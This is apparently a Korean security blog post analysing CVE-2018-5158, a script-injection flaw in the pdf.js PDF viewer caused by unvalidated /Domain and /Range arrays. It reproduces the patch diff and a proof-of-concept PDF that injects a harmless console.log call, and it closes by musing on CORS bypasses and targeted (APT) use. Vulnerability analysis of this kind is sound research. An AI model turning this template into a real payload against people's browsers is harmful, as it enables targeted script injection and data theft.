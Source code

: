 ```yaml
---
layout: post
title: "CVE-2018-5158 1-day Analysis"
excerpt: "PDF Viewer UXSS Trigger"
date: 2021-03-21
categories: [Web,CVE]
comments: true
---
```


<h3> 0x0. CVE-2018-5158</h3>


웹 익스텐션인 PDF뷰어(pdf.worker.js)를 통해서 트리거되는 UXSS 기법의 취약점

PDF뷰어에서 PostScript를 이용할 때, 인풋 파라미터 값을 어레이인지만 검증하고 직접적인 필터링을 하지 않음으로 발생

Safari 13.0.5와 Firefox 74.0 등등에서 작동



<h3> 0x1. 벡터</h3>


PDF Viewer는 PostScript Calculator 기능을 처리할 때,  자바스크립트로 변환하여 작업하는데 이때, PostScript 자체의 코드는 보안하지만 /Domain이나 /Range를 통해서 넘어오는 인풋값은 따로 검증하지 않음. 이를 통해서 PDF에 xss스크립트를 삽입하고 뷰어를 통하여 확인할 때 트리거 가능

```javascript
+      function toNumberArray(arr) {
+        if (!Array.isArray(arr)) {
+          return null;
+        }
+        var length = arr.length;
+        for (var i = 0; i < length; i++) {
+          if (typeof arr[i] !== 'number') {
+            var result = new Array(length);
+            for (var j = 0; j < length; j++) {
+              result[j] = +arr[j];
+            }
+            return result;
+          }
+        }
+        return arr;
+      }
       var PDFFunction = function PDFFunctionClosure() {
         var CONSTRUCT_SAMPLED = 0;
         var CONSTRUCT_INTERPOLATED = 2;
         var CONSTRUCT_STICHED = 3;
         var CONSTRUCT_POSTSCRIPT = 4;
         return {
           getSampleArray: function PDFFunction_getSampleArray(size, outputSize, bps, str) {
             var i, ii;
@@ -41747,43 +41763,43 @@
                 out[index] = [
                   arr[i],
                   arr[i + 1]
                 ];
                 ++index;
               }
               return out;
             }
-            var domain = dict.getArray('Domain');
-            var range = dict.getArray('Range');
+            var domain = toNumberArray(dict.getArray('Domain'));
+            var range = toNumberArray(dict.getArray('Range'));
             if (!domain || !range) {
               error('No domain or range');
             }
             var inputSize = domain.length / 2;
             var outputSize = range.length / 2;
             domain = toMultiArray(domain);
             range = toMultiArray(range);
-            var size = dict.get('Size');
+            var size = toNumberArray(dict.get('Size'));
             var bps = dict.get('BitsPerSample');
             var order = dict.get('Order') || 1;
             if (order !== 1) {
               // No description how cubic spline interpolation works in PDF32000:2008
               // As in poppler, ignoring order, linear interpolation may work as good
               info('No support for cubic spline interpolation: ' + order);
             }
-            var encode = dict.getArray('Encode');
+            var encode = toNumberArray(dict.getArray('Encode'));
             if (!encode) {
               encode = [];
               for (var i = 0; i < inputSize; ++i) {
-                encode.push(0);
-                encode.push(size[i] - 1);
-              }
-            }
-            encode = toMultiArray(encode);
-            var decode = dict.getArray('Decode');
+                encode.push([0, size[i] - 1]);
+              }
+            } else {
+              encode = toMultiArray(encode);
+            }
+            var decode = toNumberArray(dict.getArray('Decode'));
```

이를 근거로 배열에 페이로드를 첨부하여 사용자가 pdf 뷰어를 통해 이를 열람할 때 공격이 가능하다. 이건 diff라서 패치가 된 모습도 보여주는데 이전 - 버전을 보면 값에 대한 검증을 하지 않는 것 을 알 수 있다.



<h3>0x2. PoC</h3>


```javascript
/%PDF-1.4.1 0 obj.<<.  /FunctionType 4.  /Domain [(console.log("test")) 0].  /Range [0 0].  /Length 12.>>.stream.{.  0 add.}.endstream.endobj.2 0 obj.<<.  /Type /Catalog.  /Pages 3 0 R.>>.endobj.3 0 obj.<<.  /Type /Pages.  /Kids [6 0 R].  /Count 1.>>.endobj.4 0 obj.[ /Indexed.  [ /DeviceN.    [/Cyan /Black].    /DeviceCMYK.    1 0 R.  ].  1(123).].endobj.5 0 obj.<<.  /Type /XObject.  /Subtype /Image.  /Width 1.  /Height 1.  /ColorSpace 4 0 R.  /BitsPerComponent 8.  /Length 1.>>.stream.x.endstream.endobj.6 0 obj.<<.  /Type /Page.  /Parent 3 0 R.  /Resources.  <<.    /XObject << /Im5 5 0 R >>.  >>.  /MediaBox [0 0 100 100].  /Contents 7 0 R.>>.endobj.7 0 obj.<<.  /Length 100.>>.stream.  1  1  1  rg.  0  0  100 100 re  f.  BT.    /Para << /MCID 1 >>.    BDC.      /Im5 Do.    EMC.  ET.endstream.endobj.trailer.<<.  /Root 2 0 R.>>.startxref.%%EOF.
```

 이게 PoC.pdf의 hex내용이고 사실상 그냥 /Domain에 [(console.log("test")) 0]이다. 그 후에 조건 값을 맞춰주면서 트리거를 진행하면 된다.



<h3>0x3.ETC</h3>


추가적으로 PDF Viewer 는 CORS를 우회할 수 있는 방법이 많기 때문에 이를 더 연구해보면 좋을 것 같다. 또한 공격의 특성상 상대방이 해당 PDF파일을 열람을 해야만 공격이 가능해서 이를 연계하는 방법에 대해서도 구상이 필요하다.

이를 통해서 특정 타겟에 대한 xss 공격을 시행할 수 있어서 apt공격 같은 경우에도 사용이 될 것 같다. uxss사례들을 다양하게 공부해보면 좋을 것 같다.



<h3>0x4. Reference</h3>


https://nvd.nist.gov/vuln/detail/CVE-2018-5158